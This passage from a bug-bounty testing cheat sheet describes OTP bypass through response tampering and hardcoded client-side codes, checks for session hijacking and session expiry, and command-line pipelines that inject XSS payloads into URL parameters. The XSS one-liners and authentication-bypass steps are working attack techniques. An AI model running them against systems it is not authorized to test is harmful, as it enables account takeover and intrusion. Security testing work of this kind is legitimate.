 **Third Method**
* Register 2 accounts with any 2 mobile number(first enter right otp)
* Intercept your request click on action -> Do intercept -> intercept response to this request.
* check what the message will display like status:1
* Follow the same procedure with other account but this time enter wrong otp
* Intercept response to the request, See the message like you get status:0
* Change status to 1 i.e, status:1 and forward the request if you logged in means you just did an authentication bypass.

**OTP Bypass - Developer’s Check**
* Open your web browser and navigate to the target website that has an OTP-based login or registration process.
* Find the option to register or log in. This usually involves entering your phone number or email address to receive an OTP.
* Once you are on the page where you need to enter the OTP, right-click on the "Continue" or "Submit" button.
* Look for any JavaScript functions associated with the button. You might find an onclick event or other event handlers, Specifically, look for a function related to OTP validation, such as checkOTP(event).
* The console may provide a link to the source code where the function is defined, The OTP might be hardcoded or visible in the JavaScript code, allowing you to see the OTP that was sent to the mobile number.
* https://shahjerry33.medium.com/otp-bypass-developers-check-5786885d55c6

## SESSION MANAGEMENT RELATED VULNERABILITIES 

**Session Hijacking**
* Create your account.
* Login your account.
* Use cookie editor extension in browser.
* Copy all the target cookies and Logout your account.
* Paste that cookie on another browser in the cookie editor extension.
* Refresh page if you are logged in then this is a session hijacking.

**Old Session Does Not Expire After Password Change
Old Session Does Not Expire After Email change
Old Session Does Not Expire After 2FA Enabled
Old Session Does Not Expire After 2FA Enabled
Old Session Does Not Expire After Account Delete**
* Create an account on the target site.
* Log in to your account using two different browsers with the same account (Chrome and Firefox).
* Change your password in the Chrome browser.
* Refresh the Firefox browser.
* If you are still logged in, then this indicates a bug.

## CROSS SITE SCRIPTING VULNERABILITIES 

* waybackurls testphp.vulnweb.com | grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -sk --path-as-is "$host" | grep -qs "<script>alert(1)</script>" && echo "$host is vulnerable"; done
* gospider -S live_subdomains.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
* waybackurls http://example.com | gf xss | sed 's/=.*/=/' | sort -u | tee XSS.txt && cat XSS.txt | dalfox file XSS.txt
* echo target | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
* cat targets | waybackurls | anew | grep "=" | gf xss | nilo | gxss -p test | dalfox pipe --skip-bav --only-poc r --silence --skip-mining-dom --ignore-return 302,404,403
* waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
* echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'
* echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'